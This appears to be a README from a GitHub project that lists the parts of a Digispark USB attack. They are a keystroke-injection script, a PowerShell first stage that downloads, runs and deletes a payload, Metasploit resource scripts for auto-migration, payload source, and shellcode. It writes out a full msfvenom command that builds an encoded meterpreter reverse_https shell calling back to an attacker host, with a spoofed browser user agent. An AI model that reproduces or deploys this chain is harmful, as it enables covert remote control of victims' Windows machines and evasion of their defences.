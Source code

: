 # Folder with all the final payload/scripts

Items:
1. ```digispark.cpp``` digispark code for the attack, this version does not get admin privileges.
2. ```1.ps1``` first stage of the attack, download the payload and run it, deletes the payload after process migration is complete.
3. ```0.exe``` the payload.
4. ```kid_msf_auto.rc``` script to fill in all msfconsole parameters, also calls ```auto_migrate.rc``` to migrate process after session opens. run it as ```msfconsole -r /home/kali/kid_msf_auto.rc``` in terminal.
5. ```auto_migrate.rc``` to be ran after a session open, migrate process to powershell.exe. Payload will be deleted after migration.
6. ```payload_source.cpp``` source code of the payload.
7. ```shel.c``` raw shellcode generated by msfvenom, ```msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.0.10 LPORT=443 HttpUserAgent="Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/73.0.3683.103 Safari/537.36" -e x86/shikata_ga_nai -i 8 -f c > shell.c```
